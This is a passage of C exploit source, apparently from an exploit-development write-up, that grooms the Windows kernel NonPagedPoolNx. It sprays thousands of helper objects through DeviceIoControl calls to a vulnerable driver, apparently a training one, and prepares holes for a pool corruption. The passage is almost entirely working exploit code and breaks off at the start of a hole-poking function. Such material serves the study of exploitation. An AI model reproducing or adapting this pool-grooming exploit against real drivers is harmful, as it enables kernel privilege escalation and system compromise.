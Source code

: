 ```c
    printf("[+] Sprayed ARW_HELPER_OBJECT_IO objects to fill holes in the NonPagedPoolNx with ARW_HELPER_OBJECT_NON_PAGED_POOL_NX objects!\n");
}

// Fill up the new page within the NonPagedPoolNx with ARW_HELPER_OBJECT_NON_PAGED_POOL_NX objects
void groomPool(HANDLE driverHandle)
{
    // Instantiate an ARW_HELPER_OBJECT_IO
    ARW_HELPER_OBJECT_IO tempObject1 = { 0 };

    // Value to assign the Name member of each ARW_HELPER_OBJECT_IO
    unsigned long long nameValue1 = 0x9090909090909090;

    // Set the length to 0x8 so that the Name member of an ARW_HELPER_OBJECT_NON_PAGED_POOL_NX object allocated in the pool has its Name member allocated to size 0x8, a 64-bit pointer size
    tempObject1.Length = 0x8;

    // Bytes returned
    DWORD bytesreturnedGroom;

    for (int i = 0; i <= 5000; i++)
    {
        // Set the Name value to 0x9090909090909090
        tempObject1.Name = &nameValue1;

        // Allocate a ARW_HELPER_OBJECT_NON_PAGED_POOL_NX object with a Name member of size 0x8 and a Name value of 0x9090909090909090
        DeviceIoControl(
            driverHandle,
            0x00222063,
            &tempObject1,
            sizeof(tempObject1),
            &tempObject1,
            sizeof(tempObject1),
            &bytesreturnedGroom,
            NULL
        );

        // Using non-controlled arbitrary write to set the Name member of the ARW_HELPER_OBJECT_NON_PAGED_POOL_NX object to 0x9090909090909090 via the Name member of each ARW_HELPER_OBJECT_IO
        // This will be used later on to filter out which ARW_HELPER_OBJECT_NON_PAGED_POOL_NX HAVE NOT been corrupted successfully (e.g. their Name member is 0x9090909090909090 still)
        DeviceIoControl(
            driverHandle,
            0x00222067,
            &tempObject1,
            sizeof(tempObject1),
            &tempObject1,
            sizeof(tempObject1),
            &bytesreturnedGroom,
            NULL
        );

        // After allocating the ARW_HELPER_OBJECT_NON_PAGED_POOL_NX objects (via the ARW_HELPER_OBJECT_IO objects), assign each ARW_HELPER_OBJECT_IO structures to the global managing array
        helperobjectArray[i] = tempObject1;
    }

    printf("[+] Filled the new page with ARW_HELPER_OBJECT_NON_PAGED_POOL_NX objects!\n");
}

// Free every other object in the global array to poke holes for the vulnerable objects
void pokeHoles(HANDLE driverHandle)
```